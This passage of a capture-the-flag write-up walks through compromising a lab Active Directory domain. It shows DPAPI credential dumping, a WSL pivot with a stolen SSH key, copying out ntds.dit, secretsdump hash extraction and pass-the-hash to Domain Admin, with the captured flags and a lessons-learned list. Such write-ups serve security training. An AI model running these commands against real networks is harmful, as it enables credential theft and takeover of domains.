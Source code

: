 ### 🗝️ DPAPI Credential Dump
As Todd, exfil AppData → decrypted DPAPI creds:
- User: `jeremy.combs`
- Password: `qT3V9pLXyN7W4m`

### 🧑 Jeremy Access
```zsh
impacket-getTGT voleur.htb/jeremy.combs:'qT3V9pLXyN7W4m'
export KRB5CCNAME=jeremy.combs.ccache
evil-winrm -i dc.voleur.htb -r voleur.htb
```

Inside Jeremy’s folder → found **id_rsa** for WSL `svc_backup`.

### 🐧 WSL Pivot
SSH into WSL:
```zsh
ssh -i wsl -p 2222 svc_backup@voleur.htb
```

Navigated to mounted C: drive → located **Active Directory backups** (`ntds.dit`, registry hives).

### 📦 Exfil & Dump
```zsh
scp -r -i wsl -P 2222 "svc_backup@voleur.htb:/mnt/c/IT/Third-Line Support/Backups" .
impacket-secretsdump -ntds Backups/Active\ Directory/ntds.dit -system Backups/Registry/SYSTEM local
```

Extracted Administrator NT hash:
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e656e07c56d831611b577b160b259ad2
```

Authenticated as Domain Admin:
```zsh
impacket-getTGT -hashes :e656e07c56d831611b577b160b259ad2 'voleur.htb/Administrator'
evil-winrm -i dc.voleur.htb -r voleur.htb
```

✅ Full Domain Compromise.

---

## 🏁 Flags
- **User.txt:** `970eb9c987b92c0dcdf1fe702d224e6e`
- **Root.txt:** `9c4132e88fcfa35da86a28599b906e3f`

---

## 🧠 Lessons Learned

**Technical**
- Time skew issues (`KRB_AP_ERR_SKEW`) → always sync clock with DC.  
- Kerberos Pre-Auth disabled users are excellent AS-REP roasting targets.  
- Office docs often hide service account passwords.  
- Kerberoasting + Hashcat can quickly pivot to service accounts with high privileges.  
- DPAPI + Recycle Bin + WSL backup abuse chain is realistic and powerful.  
